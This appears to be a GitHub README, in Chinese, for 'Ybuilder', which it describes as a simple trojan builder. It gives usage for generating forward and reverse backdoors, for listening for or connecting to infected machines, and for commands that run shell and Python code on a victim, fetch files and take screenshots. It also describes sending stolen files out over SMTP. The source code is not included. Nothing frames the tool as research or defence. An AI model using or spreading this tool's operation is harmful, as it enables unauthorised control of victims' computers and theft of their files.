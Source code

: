 # Ybuilder  

Ybuilder 一个简易的木马生成工具

## 如何使用Ybuilder  

用Python 3.10或以上版本的解释器运行Main.py  

运行结果
```
__   ___           _ _     _           
\ \ / / |__  _   _(_) | __| | ___ _ __ 
 \ V /| '_ \| | | | | |/ _` |/ _ \ '__|
  | | | |_) | |_| | | | (_| |  __/ |   
  |_| |_.__/ \__,_|_|_|\__,_|\___|_|   
                                       
Ybuilder $>
```  

### 使用generate命令生成木马  

```
generate [选项] [文件路径] [ip] [port]

1. [选项] 可选0和1
   当选项的值为0时 生成的为反向木马
   当选项的值为1时 生成的为正向木马
2. [文件路径] 生成后门的路径
3. [ip] 本机或目标的ip
   [port] 本机或目标的port
   当选项的值为0时 ip与port为本机
   当选项的值为1时 ip与port为目标
```  

### 使用connect命令连接正向木马   

```
connect [ip] [port]

1. [ip][port] 均为目标
2. 此命令要运行在被控端之后!
```  

### 使用listen命令接受反向后门连接  

```
listen [ip] [port]

1. [ip][port] 均为本机
2. 此命令要运行在被控端之前!
```  

### 如何操作目标  

在连接到目标后 可以通过以下命令操作(连接到目标或会输出"$>")  

```
1. shell [命令]     #执行shell
2. get [文件路径]    #获取文件
3. win             #获取屏幕截图
4. py [语句]        #执行python语句
```  

例如
```
1. shell whoami #执行whoami
   shell id     #执行id
   shell ls     #执行ls

2. get a.txt    #获取a.txt
   get /a.jpg   #获取根目录下的a.jpg  

3. win          #获取屏幕截图

4. py print('hello world')    #在目标上输出hello world
   py import os;print(os.name)#获取目标操作系统信息
```  

在这其中请注意shell和get及win命令!!!

shell命令是非交互式shell 您无法执行vim sudo 这样的命令!!!  

get和win使用smtp传输文件 您在使用两者时要先如下操作!!!  

```
$> py host = "smtp服务器域名" #例如163的smtp.163.com
命令执行成功
$> py port = "smtp服务所在端口" #一般是25端口
命令执行成功
$> py name = "您的邮箱"
命令执行成功
$> py password = "smtp运营商提供给您的密码" 
```




   
